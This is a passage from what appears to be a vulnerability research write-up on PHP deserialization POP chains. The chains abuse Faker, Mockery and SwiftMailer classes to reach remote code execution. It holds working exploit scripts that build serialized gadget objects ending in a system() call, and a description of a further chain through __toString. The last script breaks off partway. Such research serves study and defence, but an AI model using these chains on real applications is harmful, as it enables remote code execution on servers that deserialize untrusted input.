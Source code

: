 ```php

namespace Mockery\Generator {
    use Faker\ValidGenerator;
    class DefinedTargetClass {
        private $rfc;
        public function __construct($payload) {
            $this->rfc = new ValidGenerator($payload);
        }
    }
}

namespace {
    use Mockery\Generator\DefinedTargetClass;
    class Swift_KeyCache_DiskKeyCache {
        private $path;
        private $keys = ['H3rmesk1t' => ['H3rmesk1t' => 'H3rmesk1t']];
        public function __construct($payload) {
            $this->path = new DefinedTargetClass($payload);
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache("calc")));
}
?>
```
### POP chain utilization flow chart

![undefined](https://p3.ssl.qhimg.com/t01d3043fe36903dc33.png "undefined")

## POP Chain-9
The utilization chain of the start and end points is the same as the `POP chain-8`. Change the trigger point of `__toString()` and follow up the `__toString()` method in `lib/classes/Swift/Mime/SimpleMimeEntity.php`. It calls the `toString()` method. Since `$this->_headers` is controllable, you can use the `__call()` method of the previous chain for RCE operation.

![undefined](https://p5.ssl.qhimg.com/t0159a7d1c51ac10591.png "undefined")

### exp
```php
<?php
namespace Faker {
    class DefaultGenerator {
        protected $default;
        public function __construct($payload) {
            $this->default = $payload;
        }
    }
    class ValidGenerator {
        protected $generator;
        protected $validator;
        protected $maxRetries;
        public function __construct($payload) {
            $this->generator = new DefaultGenerator($payload);
            $this->validator = "system";
            $this->maxRetries = 1; // If the value is not set, it is repeated 10,000 times by default.
        }
    }
}

namespace {
    use Faker\ValidGenerator;
```